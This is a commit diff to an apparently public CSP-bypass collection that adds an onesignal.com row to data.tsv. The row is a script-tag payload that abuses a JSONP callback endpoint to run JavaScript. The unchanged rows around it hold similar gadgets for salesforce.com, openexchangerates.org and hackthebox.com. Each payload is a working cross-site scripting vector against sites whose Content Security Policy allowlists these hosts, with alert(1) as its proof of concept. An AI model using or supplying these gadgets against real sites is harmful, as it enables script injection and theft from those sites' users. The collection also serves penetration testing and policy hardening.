

Before and after one commit to y1024/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows.

Commit message:
Added onesignal.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -194,2 +194,3 @@ okt.hackthebox.com	<script src="https://okt.hackthebox.com/ping?callback=alert(1
 omtr2.partners.salesforce.com	<script src="https://omtr2.partners.salesforce.com/id?callback=alert"></script>
+onesignal.com	<script src="https://onesignal.com/api/v1/sync/0a5d329d-664d-4253-9bdd-62f208e2ae79/web?callback=alert(1)-"></script>
 openexchangerates.org	<script src="https://openexchangerates.org/api/latest.json?app_id=4a363014b909486b8f49d967b810a6c3&callback=alert(document.domain)"></script>
```
